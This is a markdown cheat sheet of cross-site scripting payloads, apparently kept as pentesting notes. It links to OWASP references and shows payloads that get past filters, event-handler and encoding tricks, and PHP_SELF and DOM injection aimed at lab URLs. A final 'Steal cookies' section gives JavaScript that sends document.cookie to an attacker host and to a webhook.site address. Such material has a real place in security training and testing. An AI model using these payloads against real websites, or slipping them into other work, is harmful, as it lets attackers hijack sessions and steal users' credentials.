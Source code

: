 # XSS : Cross Site Scripting

https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet
https://quanyang.github.io/the-abcs-of-xss/


### Templates

<script src="https://gist.github.com/jossets/069ec356de6f73e16b88f07c79728565#file-xss-detecttion-templates"></script>

### Basic
```html
<script>alert(1);</script>
```

### Filter : script tag
```html
<sRript>alert(1);</sCript>
```
### Remove : script tag
```html
<scr<script>ipt>alert(1);</sc</script>ript>
```

```
http://12.0.0.11/xss/example3.php?name=<scr<script>ipt>alert(1);</sc</script>ript>
http://12.0.0.11/xss/example3.php?name=%3Cscr%3Cscript%3Eipt%3Ealert(1);%3C/sc%3C/script%3Eript%3E
```


### Embed JS

Detect : use ', "
666 lines of JS : https://gist.github.com/JohannesHoppe/5612274

- with the <a tag directly in the URL. You will need to click the link to trigger the JavaScript code.
```` html
    <a href='javascript:alert(1)' /> 
````
- with the <img> tag and the event onerror.
```html
    <img src='zzzz' onerror='alert(1)' />
```
- with the <div tag and the following events: onmouseover, onmouseout, onmousemove, onclick...




### Convert to Ascii code
https://www.browserling.com/tools/text-to-ascii
````
alert(1) => 97,108,101,114,116,40,49,41
<script>eval(String.fromCharCode( 97,108,101,114,116,40,49,41));</script>
````

### PHP : Abusing $_SERVER['PHP_SELF'];
$_SERVER['PHP_SELF'] = URL base request. 
````html
<form method="post" action="<?php echo $_SERVER['PHP_SELF']; ?>">

GET http://12.0.0.11/xss/example8.php/bob"><script>alert(1)</script><
=>
<?php bob"> <script>alert(1)</script> <?>
````

### Abusing DOM
````html
GET http://ptl-bf67ed09-7529df2e.libcurl.so/index.php#bob
<p>Welcome <script>document.write(decodeURIComponent(location.hash.substring(1)));</script></p>
Welcome bob
GET http://ptl-bf67ed09-7529df2e.libcurl.so/index.php#</script>>script>alert(1)</script>
````


## XSS payload client


### Steal cookies
````javascript
    (new Image()).src = "http://www.evil-domain.com/steal-cookie?cookie=" + document.cookie;
````
````html
<script>
document.write('<img src="[URL]?c='+document.cookie+'" />');
</script>
````

Send cookies to webhook : https://webhook.site/
Once the browser renders the JavaScript the <img tag should look like:
````<img src="[URL]?c=[COOKIE]"/>````
And it will send the cookies to your website.
Make sure you don't forget to encode the + in the URL (%2b).
````html
<script>document.write('<img 
src="https://webhook.site/83c6be25-52d2-47a3-ba2f-6615b183fdbc?c='%2bdocument.cookie%2b'" />');</script>

````
